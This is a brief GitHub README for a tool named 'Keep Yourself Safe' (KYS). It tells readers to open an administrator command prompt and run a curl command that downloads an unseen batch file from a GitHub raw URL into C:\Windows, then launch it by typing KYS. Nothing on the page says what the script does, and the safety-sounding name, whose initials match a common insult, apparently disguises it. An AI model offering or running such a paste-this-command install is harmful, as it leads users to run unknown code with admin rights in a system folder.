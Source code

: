 # Keep Yourself Safe

## Images:
<img scr="" weight="" height="">

## How to install
<p> You just need open cmd with admin perms, and paste next command<p/>

```curl -o c:\windows\kys.bat https://raw.githubusercontent.com/blozaza/Smth/main/kys.bat```
<p> !!!Notice that file will be stored in Windows packpage!!! <p/>


## Boot
<p> After installing, you can boot it with command <p/> ```KYS``` <p> in cmd <p/>
